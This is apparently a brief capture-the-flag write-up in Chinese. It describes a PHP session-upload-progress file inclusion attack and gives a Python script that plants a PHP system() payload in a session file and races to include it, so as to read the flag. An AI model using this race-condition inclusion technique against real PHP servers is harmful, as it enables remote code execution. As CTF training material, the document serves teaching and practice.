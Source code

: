 - # 思路
	- session上传文件然后include
- # 脚本
	- 多次执行test函数直到其产生回显即可
	- ```python
	  def test(x):
	      r = base_post(
	          url,
	          params={"file": "/tmp/sess_x"},
	          data={"PHP_SESSION_UPLOAD_PROGRESS": "<?php echo 123123; system('cat /nssctfasdasdflag')?>"},
	          files={"file": ("a.txt", io.BytesIO(b"a" * 1024 * 50))},
	          cookies={"PHPSESSID": "x"},
	      )
	      if len(r.text) < 100 and "hacker" in r.text:
	          return "waf"
	      if "123123" in r.text:
	          return r.text
	      return None
	  
	  ```
